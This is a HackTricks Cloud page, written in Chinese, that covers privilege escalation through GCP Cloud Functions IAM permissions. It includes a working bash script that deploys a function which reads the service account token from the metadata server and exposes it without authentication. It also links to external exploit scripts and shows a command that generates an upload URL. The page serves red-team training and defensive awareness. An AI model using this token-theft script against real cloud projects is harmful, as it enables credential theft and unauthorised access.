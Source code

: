 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## cloudfunctions

关于 Cloud Functions 的更多信息：

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以**创建一个带有任意（恶意）代码的新 Cloud Function 并分配一个 Service Account**。然后，从元数据中泄露 Service Account 令牌以提升权限。\
可能需要一些触发函数的权限。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)和[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)找到，预构建的 .zip 文件可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)找到。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以**修改函数的代码，甚至修改附加的 service account**，以泄露令牌为目标。\
可能需要一些触发函数的权限。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--trigger-http \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA tokin calling the new function code
gcloud functions call <cloudfunction-name>
```
此方法的漏洞脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)找到。

### `cloudfunctions.functions.sourceCodeSet`

有了这个权限，你可以获得一个**签名URL以便将文件上传到函数存储桶（但函数的代码不会被更改，你仍然需要更新它）**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

不太确定从攻击者的角度来看，这个权限有多大用处，但知道总是好的。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

给自己任何之前的 **`.update`** 或 **`.create`** 权限以进行升级。

### `cloudfunctions.functions.update`

只有 **`cloudfunctions`** 权限，没有 **`iam.serviceAccounts.actAs`** 你 **将无法更新函数，所以这不是一个有效的权限提升。**

### Bucket 写权限

你可能认为拥有 **bucket 写权限** 的攻击者可以 **修改存储 Cloud Functions 代码的 bucket**，通过覆盖 `function_code.zip` 来 **执行任意代码**。

{% hint style="success" %}
**然而，这并不是真的，仅仅覆盖 bucket 内的代码不会修改正在执行的代码。**
{% endhint %}

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}
